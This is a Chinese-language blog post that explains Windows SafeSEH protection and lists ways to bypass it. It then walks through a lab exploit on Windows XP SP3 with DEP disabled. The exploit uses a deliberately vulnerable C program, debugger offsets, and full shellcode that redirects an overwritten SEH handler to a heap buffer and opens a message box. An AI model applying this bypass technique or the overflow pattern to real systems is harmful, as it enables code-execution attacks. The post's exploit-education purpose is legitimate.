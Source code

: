 ```yaml
---
layout: post
title: "使用堆绕过SafeSEH机制"
author: "kumqu"
---
```


## SafeSEH 对异常处理的保护原理

​	在`Windows XP SP2` 及后续的操作系统中, 微软引入了`SEH`校验机制`SafeSEH`.`SafeSEH`的原理如下: 在程序调用异常处理函数前, 对要调用的异常处理函数进行一系列的有效性校验, 当发现异常处理函数不可靠时将终止异常处理函数的调用.

​	在`VS 2003`及后续的版本中, 链接选项中的`/SafeSEH`选项是默认启用的, 这可以让编译好的程序具备`SafeSEH`功能. 启用该选项后, 编译器在编译程序的时候将程序所有的异常处理函数地址提取出来, 编入一张安全`SEH`表, 并将这张表放到程序的映像里面. 当程序调用异常处理函数的时候会将函数地址与安全`SEH`表进行匹配, 检查调用的异常处理函数是否位于安全`SEH`表中. 在`VS`命令提示行, 执行`dumpbin /loadconfig filename`可以查看程序安全`SEH`表的情况, 如下图所示: 

<img src="{{https://github.com/kumqu/kumqu.github.io/blob/master/}}_image/2019-08-02/1.PNG" alt="1" style="zoom:75%;" />

​	`SafeSEH`机制首先调用了`RtlDispatchException()`函数判断: 异常处理链是否位于当前程序栈中; 异常处理指针是否指向当前程序栈中. 若不通过都将终止异常处理函数的调用. 之后调用`RtlIsValidHandler()`函数, 其伪代码如下:

```
BOOL RtlIsValidHandler( handler )
{
    if (handler is in the loaded image)      // 在加载模块的内存空间内
    {
        if (image has set the IMAGE_DLLCHARACTERISTICS_NO_SEH flag)
            return FALSE;                    // 程序设置了忽略异常处理
        if (image has a SafeSEH table)       // 含有 SafeSEH 表说明程序启用了 SafeSEH
            if (handler found in the table)  // 异常处理函数地址在表中
                return TRUE;
            else
                return FALSE;
        if (image is a .NET assembly with the ILonly flag set)
            return FALSE;                    // 包含 IL 标志的 .NET 中间语言程序
    }

    if (handler is on non-executable page)   // 在不可执行页上
    {
        if (ExecuteDispatchEnable bit set in the process flags)
            return TRUE;                     // DEP 关闭
        else
            raise ACCESS_VIOLATION;          // 访问违例异常
    }

    if (handler is not in an image)          // 在可执行页上，但在加载模块之外
    {
        if (ImageDispatchEnable bit set in the process flags)
            return TRUE;                     // 允许加载模块内存空间外执行
        else
            return FALSE;
    }
    return TRUE;                             // 允许执行异常处理函数
}


```

​	根据上述流程, 运行异常处理函数执行的情况如下: 

* 异常处理函数在加载模块外, `DEP`关闭
* 异常处理函数在加载模块内, 相应模块未启用`SafeSEH`(安全`SEH`表为空)且不是纯`IL`
* 异常处理函数在加载模块内, 相应模块启用`SafeSEH`, 异常处理函数地址包含在安全`SEH`表中

​    因此, 绕过`SafeSEH`机制有如下方法:

* 覆盖函数返回地址. 若攻击对象启用了 `SafeSEH` 但是 没有启用 `GS` 或者存在未受` GS `保护的函数
* 利用虚函数表来绕过 `SafeSEH`
* 将 `shellcode` 部署在堆中以绕过 `SafeSEH`
* 利用未启用 `SafeSEH` 的模块绕过 `SafeSEH`
* `DEP` 关闭时，可以利用加载模块之外的地址作为跳板绕过`SafeSEH`

## 从堆中绕过 SafeSEH

​	 实验环境如下:

|   操作系统   |      `Windows XP SP3`       |
| :----------: | :-------------------------: |
|  **编译器**  |  **`Visual Studio 2008`**   |
| **编译选项** | **`DEP`关闭, 禁用优化选项** |

​	`POC`代码如下, 含义是用`shellcode`在堆中的起始地址覆盖异常处理函数地址, 然后通过除0异常调用异常处理函数: 

```
#include <stdlib.h>
#include <string.h>

char shellcode[] = "\x90...";

void test(char *input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero = 1 / zero;
}

void main()
{
	char *buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(shellcode);
}
```

​	使用`OllyDbg`运行编译好的程序, 执行到程序中断在完成申请堆中空间的位置, 如下图所示, 寄存器`EAX`中存放着申请空间的首地址, 即地址`003907A8`是`shellcode`的首地址:

![2](../_image/2019-08-02/2.PNG)

​	然后执行到`test`函数的`strcpy`完成后, 填充的`0x90`标识出了字符串的起始地址, 即地址`0x0012FE5C`是溢出字符串的起始地址, 如下图所示:

![3](https://github.com/kumqu/kumqu.github.io/blob/master/_image/2019-08-02/3.PNG)

​	打开`SEH`链视图,  `SEH`异常处理函数指针位于`0x0012FFB0+4`的位置(`0x0012FFB0`为指向下一个`SEH`的链表指针, `0x0012FFB4`才是异常回调函数句柄), 如下图所示:

![4](https://github.com/kumqu/kumqu.github.io/blob/master/_image/2019-08-02/4.PNG)

​	因为 `0x0012FFB4 - 0x0012FE5C = 344字节`, 所以缓冲区起始地址与异常回调函数句柄之间有344字节间隙. 使用的`shellcode`布局为: 168个字节的弹出对话框的机器码; 176字节的填充`\x90`; 4字节使用`003907A8`缓冲区地址填充, 用于更改异常回调函数的句柄. 修改好的`shellcode`如下:

```
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xA8\x07\x39\x00"//address of shellcode in heap
;
```

​	重新编译程序, 在程序`0x003907A8`位置设置断点, `F9`运行程序到上述断点处中断. 由此可知, 已经成功绕过`SafeSEH`机制转入`shellcode`运行了. 继续运行程序, 执行`shellcode`显示弹窗, 如下图所示:

<img src="https://github.com/kumqu/kumqu.github.io/blob/master/_image/2019-08-02/5.PNG" alt="5" style="zoom:80%;" />

​	最终, 成功实现了从堆中绕过 `SafeSEH`机制.

